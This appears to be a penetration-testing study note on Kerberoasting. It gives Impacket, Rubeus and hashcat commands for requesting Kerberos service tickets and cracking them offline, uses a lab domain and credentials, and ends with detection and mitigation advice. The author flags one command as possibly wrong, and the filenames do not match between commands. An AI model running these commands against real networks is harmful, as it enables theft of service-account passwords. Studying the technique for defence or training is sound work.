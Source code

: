# Kerberoast
**What:** Request service tickets (TGS) for SPNs, export ticket ciphertext and crack offline to recover service account passwords.  
**Privileges needed:** Any authenticated domain user.  
**Common tools:** Impacket `GetUserSPNs.py`, Rubeus.
- https://github.com/GhostPack/Rubeus
```bash
# OSCP-A live example
impacket-GetUserSPNs -dc-host dc01.oscp.exam -dc-ip 10.10.158.140  oscp.exam/Eric.Wallows:'EricLikesRunning800' -request > kerberroast.hash

# Request all service tickets for domain
# I think this command is wrong, and will be ./invoke-rubeus.ps1
# Invoke-Rubeus -Command "<rubeus_arguments>"
Rubeus.exe kerberoast /domain:corp.local /outfile:kerb.hashes

hashcat -m 13100 kerberoast.hashes /path/to/wordlist.txt
```
**Detection / Mitigation**
- Monitor high volumes of TGS requests from single accounts or unusual workstation sources.
- Enforce strong service-account passwords, avoid long-lived/high-privilege service accounts, use managed service accounts (gMSA), and enable AS-REP/preauth where appropriate.

